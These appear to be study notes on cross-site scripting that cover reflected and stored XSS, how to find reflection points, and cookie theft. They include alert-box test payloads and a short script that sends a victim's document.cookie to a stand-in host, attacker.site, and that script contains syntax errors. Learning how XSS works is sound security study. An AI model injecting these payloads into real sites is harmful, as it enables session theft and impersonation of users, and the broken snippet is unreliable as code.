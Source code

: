 **Cross Site Scripting**
- vulnerability that lets an attacker control some of the content of a web application
By using an XSS, an attacker can:
- modify the content of the site at run-time
- inject malicious contents
- steal the cookies; session of a user
- perform actions on the web application as if it was a legitimate user

**Vulnerable Web Applications**
- vulnerable web application is what makes XSS attacks possible
- happens when web application uses unfiltered user input to build the output content displayed to its end users; this lets the attacker control the output HTML + JavaScript code

User input is any parameter coming from the client side of the web app:
- request headers
- cookies
- form inputs
- POST parameters
- GET parameters
(all these input channels should be validated server side)

**Attackers**
Malicious users exploit XSS vulnerabilities to attack the users of a web site by:
- making their browsers load malicious content
- performing operations on their behalf; buying a product or changing a password
- stealing their session cookies; being able to impersonate them on the vulnerable site
* * *
**Finding an XSS**
- to find XSS you have to look at every user input; test if it is displayed on the output of the web application
- a search parameter is submitted through a form + gets displayed on the output
- searched string is passed to the web application through a GET parameter

- after finding a reflection point, you have to understand if you can inject HTML code + see if it gets to the output of the page
- use any valid HTML tag + understand if it gets to the output of the page
- inject a harmless tag `<i> / <pre> / <plaintext>`
`<i> tag is injected` 
- test string is in italic ; HTML has been interpreted

To test XSS:
- inject valid HTML/JavaScript code; `<script>alert(‘XSS’)</script>`
* * *
**Reflected XSS Attacks**
- occurs when the web application responds immediately on users input without validating what the user entered; lead an attacker to inject browser executable code inside the single HTML response
- “non persistent” as the malicious script does not get stored inside the web server database; attacker needs to send the link through phishing technique in order to trap the user

(Reflected) type of attack is called Reflected because an input field of the HTTP request sent by the browser gets immediately reflected to the output page

```
localhost/hxss/get.php?search=Bug+Bounty
```
- (search=Bug+Bounty) data has been requested through GET method
- generate pop up by injecting Javascript code; 
`get.php?search<script>alert(“welcome to hacking articles”)</script>`
* * *
**Stored (Persistent) XSS Attacks**
- injected malicious script gets permanently stored inside the web applications database server
- website loads the stored malicious script + puts it within the HTML output when user visits page; deliver XSS payload
- method of attack does not require any phishing technique to target its users

(if an attacker manages to write malicious “HTML or JavaScript” on a social blog page; every user visiting that page will run the payload)
* * *
**Cookie Stealing via XSS**
- JavaScript can access cookies if they do not have the HttpOnly flag enabled; means that an XSS attack can be used to steal the cookies
- stealing cookies means stealing a user’s session
`<script>alert(document.cookie)</script>`

- send cookies to an attacker-controlled site
```
<script>
var i = new image () ;
i.src=http://attacker.site/log.php?q=+document.cookie;
</script>
```
- script generates an image object + point its src to a script on the attacker server (attacker.site)
- browser cannot tell in advance if the source is a real image; loads and executes the script

